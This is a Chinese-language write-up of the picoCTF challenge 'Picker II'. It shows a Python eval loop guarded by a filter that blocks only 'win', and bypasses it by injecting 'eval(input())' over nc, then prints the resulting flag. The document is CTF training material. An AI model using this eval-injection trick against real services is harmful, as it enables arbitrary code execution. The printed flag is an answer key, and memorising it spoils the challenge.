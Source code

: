 ```yaml
---
icon: pen-to-square
date: 2025-01-13
tags: 
title: Picker II
category:
  - 领域
---
```

5,279 users solved
#### Description
Can you figure out how this program works to get the flag?

Additional details will be available after launching your challenge instance.
#### Hints
Can you do what `win` does with your input to the program?

---
# 00. 前言
值得一提的是本题的好评率达到了97%，没错，本题确实相当有趣，如果你是为了寻找wp，我建议你自己研究一下

# 01. 解题过程
```python
while(True):  
  try:  
    user_input = input('==> ')  
    if( filter(user_input) ):  
      eval(user_input + '()')  
    else:  
      print('Illegal input')  
  except Exception as e:  
    print(e)  
    break
```
这是主程序，关键调用了filter()验证玩家输入，然后执行玩家输入的语句并接上一个()
检验部分：
```python
def filter(user_input):  
  if 'win' in user_input:  
    return False  
  return True
```
我的思路是继续接接上一个eval
```
eval(input())
```
然后会让我们输入，这时已经调用了检验函数，我们只需输入win即可执行win()函数

获得flag的hex形式
```bash
└─# nc saturn.picoctf.net 62159
==> eval(input())
win()
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x66 0x31 0x6c 0x37 0x33 0x72 0x35 0x5f 0x66 0x34 0x31 0x6c 0x5f 0x63 0x30 0x64 0x33 0x5f 0x72 0x33 0x66 0x34 0x63 0x37 0x30 0x72 0x5f 0x6d 0x31 0x67 0x68 0x37 0x5f 0x35 0x75 0x63 0x63 0x33 0x33 0x64 0x5f 0x30 0x62 0x35 0x66 0x31 0x31 0x33 0x31 0x7d
'NoneType' object is not callable
```
flag:
```
picoCTF{f1l73r5_f41l_c0d3_r3f4c70r_m1gh7_5ucc33d_0b5f1131}
```
